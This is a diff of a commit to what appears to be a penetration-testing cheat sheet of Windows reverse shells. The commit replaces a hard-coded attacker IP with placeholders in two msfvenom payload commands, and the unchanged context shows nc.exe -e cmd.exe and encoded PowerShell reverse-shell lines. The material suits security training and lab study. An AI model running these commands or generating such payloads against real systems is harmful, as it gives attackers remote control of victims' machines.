

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Shells & Payloads/web_reverse_cheat_sheet.md, the part around one of its changes. Drawn GitHub-style.

`````diff
--- a/Shells & Payloads/web_reverse_cheat_sheet.md
+++ b/Shells & Payloads/web_reverse_cheat_sheet.md
@@ -31,8 +31,8 @@ $sslProtocols = [System.Security.Authentication.SslProtocols]::Tls12; $TCPClient
 --------------------------------------------------------------------------------------------
 > nc.exe <IP-Attacker> <Port> -e cmd.exe
 > powershell -e base64_payload
-> msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe
-> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe
+> msfvenom -p windows/shell_reverse_tcp LHOST=<IP-Attacker> LPORT=<Port> -f exe > nameoffile.exe
+> msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP-Attacker> LPORT=<Port> -f exe > nameoffile.exe
 ````
 
 **Other Languages**
`````
Also changed, not shown: other parts of Shells & Payloads/web_reverse_cheat_sheet.md (+0 -2 lines).
